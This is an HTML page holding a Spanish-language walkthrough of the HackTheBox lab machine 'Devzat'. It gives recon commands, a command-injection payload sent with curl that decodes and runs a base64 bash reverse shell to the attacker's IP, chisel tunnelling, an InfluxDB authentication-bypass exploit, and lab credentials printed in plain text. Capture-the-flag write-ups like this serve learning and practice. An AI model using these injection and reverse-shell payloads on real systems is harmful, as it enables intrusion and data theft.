





<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Post - Devzat</title>
    <link href="https://fonts.googleapis.com/css2?family=Merriweather:wght@400;700&family=Open+Sans:wght@400;600&display=swap" rel="stylesheet">
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/styles/github.min.css">
    <style>
        body {
            font-family: 'Open Sans', sans-serif;
            max-width: 800px;
            margin: 0 auto;
            padding: 20px;
            color: #fff;
            background-color: #000;
            line-height: 1.6;
        }
        
        h1, h2, h3, h4, h5, h6 {
            font-family: 'Merriweather', serif;
            margin-bottom: 20px;
        }

        img {
            max-width: 100%;
            height: auto;
            margin: 20px 0;
            border-radius: 5px;
            box-shadow: 0 4px 6px rgba(255, 255, 255, 0.1);
        }

        pre {
            background-color: #222;
            padding: 10px;
            overflow-x: auto;
            border-radius: 5px;
        }

        code {
            font-family: 'Courier New', Courier, monospace;
            background-color: #222;
            padding: 2px 4px;
            border-radius: 3px;
        }

        blockquote {
            border-left: 4px solid #ccc;
            margin-left: 0;
            padding-left: 20px;
            font-style: italic;
            color: #ccc;
        }

        a {
            color: #fff;
            text-decoration: underline;
        }
    </style>
</head>
<body>
    <div id="post">
        <!-- Aquí se insertará el contenido del post en formato Markdown -->
    </div>

    <script src="https://cdnjs.cloudflare.com/ajax/libs/showdown/1.9.1/showdown.min.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/highlight.min.js"></script>
    <script>
        // Obtener el contenido del post en formato Markdown (puedes reemplazar esto con tu propia lógica)
        const markdownContent = `
# Máquina "Devzat" de HackTheBox

Caracteristicas:

- Linux
- Dificultad media
- Fuzzing Directory .git (GIT Project Recomposition) 
- Web Injection (RCE) Abusing InfluxDB (CVE-2019-20933) 
- Abusing Devzat Chat /file command (Privilege Escalation) 
- EXTRA (Crypto CTF Challenge | N Factorization

Util en:

- eWPT 
- eJPT

    Ip 10.10.11.118 

Escaneo de puertos

- nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn  10.10.11.118 
        
Resultado del escaneo de Nmap: Puerto 22, Puerto 80, Puerto 8000, el servicio Apache
se está ejecutando en el puerto 80, por lo que aquí sabemos que hay una página web ejecutándose. 

- sudo nmap -sC -sV -p23,53,80,443 192.168.0.1 -oN targeted

Agregamos el nombre y la ip al local host 

- nano /etc/hosts

luego hacemos reconocimiento de directorios con gobuster

- gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://devzat.htb/ -t 20 2>/dev/null



guardamos todos los directorios encontrados y luego fuzeamos

- ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://devzat.htb/FUZZ
        
modificamos el fuzzing para que muestre solo los directorios o recursos con los codigos de estados ingresados luego de -mc

- ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://devzat.htb/FUZZ -mc 200,204,301,307,401,403,405

mientras accederemos a la web y probamos con el puerto 8000 
vemos una pagina estilo irc usamos el mismo nombre de usuario en la sección de contacto para acceder al chat.
Esto nos proporcionará un chat con un administrador que nos informará que existe una base de datos influxdb en algún
lugar de la máquina. 

mientras el fuzzing anteriormente lanzado nos dio algunos recursos, especificamente un .git que descargaremos a nuestra maquina 
y descargamos una herramienta para la investigacion de git

- git clone https://github.com/internetwache/GitTools

movemos el ejecutable de la herramienta a una carpeta y lanzamos

- /GitTools/Dumper/gitdumper.sh http://pets.devzat.htb/.git/ dump

analizamos los archivos hasta encontrar el archivo main.go

y despues de analizarlo podemos llegar a la conclusion de que es vulnerable a la inyeccion de comandos
explicitamente la seccion

    func loadCharacter(species string) string {
    cmd := exec.Command("sh", "-c", "cat characteristics/"+species)
    stdoutStderr, err := cmd.CombinedOutput()
    if err != nil {
    return err.Error()
    }
        return string(stdoutStderr)
    }

asi que hacemos una injeccion de codigo, generamos una shell inversa en base64

- echo -n "bash -i >& /dev/tcp/10.10.14.13/4484 0>&1" | base64

la salida es

YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMy80NDg0IDA+JjE

este codigo se agrega al curl

- curl -v -X POST "http://pets.devzat.htb/api/pet" -d '{"name":"test1","species":"cat;echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMy80NDg0IDA+JjE= | base64 -d | bash"}'

y esto enviara una shell inversa a nuestro puerto 4484 listo estamos dentro


no esta la flag asi que buscaremos algunas cosas como claves ssh

- find / -type f -name "authorized_keys" -ls 2>/dev/null

asi que como patrick nuestro usuario actual buscaremos puertos abiertos 

    netstat -pluton

    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name     Timer

    tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                    off (0.00/0/0)

    tcp        0      0 127.0.0.1:8086          0.0.0.0:*               LISTEN      -                    off (0.00/0/0)

    tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                    off (0.00/0/0)

    tcp        0      0 127.0.0.1:8443          0.0.0.0:*               LISTEN      -                    off (0.00/0/0)

    tcp        0      0 127.0.0.1:5000          0.0.0.0:*   

vemos que está abierto el puerto 8086 usa influxdb    

descargaremos chisel y lo enviaremos a la victima 

- chmod +x sichel

lanzamos en nuestra maquina

- chisel server -p 1111 --reverse

en la victima

./chisel client 10.10.14.13:1111 R:8086:127.0.0.1:8086

coneccion establecida

luego vamos buscamos una vulnerabilidad asociada a influxdb que tiene una vulnerabilidad asociada a ( CVE-2019-20933 )
que permite omitir el inicio de sesión. Además, existe un exploit funcional para esta vulnerabilidad en particular. 

    git clone https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933.git
    cd InfluxDB-Exploit-CVE-2019-20933
    pip install -r requirements.txt

- python3 main.py



luego lanzaremos:

- SHOW MEASUREMENTS



Después de ese volcado de usuario. 

- select *from "user"



y tenemos las credenciales

User: catherine
Password: woBeeYareedahc7Oogeephies7Aiseci

ingresamos como catherine y encontramos la flag de user

## Escalada de privilegios

Aquí tenemos archivos zip llamados devzat-dev.zip y devzat-main.zip, por lo que debemos descomprimirlos en el directorio /tmp.

- cp devzat-dev.zip /tmp 

Desde el comando diff, el entorno "dev" implementa la función de lectura de archivos utilizando
el comando file con protección por contraseña. El entorno "dev" se ejecuta en el puerto localhost 8443, 
por lo tanto, desde la enumeración inicial utilizando la cuenta Patrick no se puede verificar el proceso que se ejecuta 8443.

- diff dev/commands.go main/commands.go 

Ahora, es necesario descargar chisel en el usuario de Catherine para el reenvío de puertos. 

- chmod +x chisel_1.7.3_linux_amd64 

Ahora necesitamos reenviar el puerto desde aquí a nuestra propia máquina usando
la herramienta que usamos anteriormente (chisel) y el puerto ssh será 8443. 



- ssh -l test 127.0.0.1 -p 8443 

capturamos la bandera raiz 

- /file ../root.txt TechoCatStillAThingin2021? 

y maquina terminada 


Algunos de los writeups en esta página, pueden tener contenido de otras páginas o tener muy pocas imágenes, esto debido
a que en algunas de las máquinas que realice no tome los apuntes o no tome capturas de pantalla así que he decidido buscar varios writeups
y agregar lo que este mejor explicado en cada uno para plasmarlo aquí, también si encuentra faltas de ortografía o cualquier error, 
Puedes contactarme a mi correo:

lerioxirit@proton.me

        `;
        
        // Convertir Markdown a HTML
        const converter = new showdown.Converter();
        const html = converter.makeHtml(markdownContent);

        // Insertar el HTML generado en el elemento con id "post"
        document.getElementById('post').innerHTML = html;

        // Resaltar la sintaxis del código
        hljs.initHighlightingOnLoad();
    </script>
</body>
</html>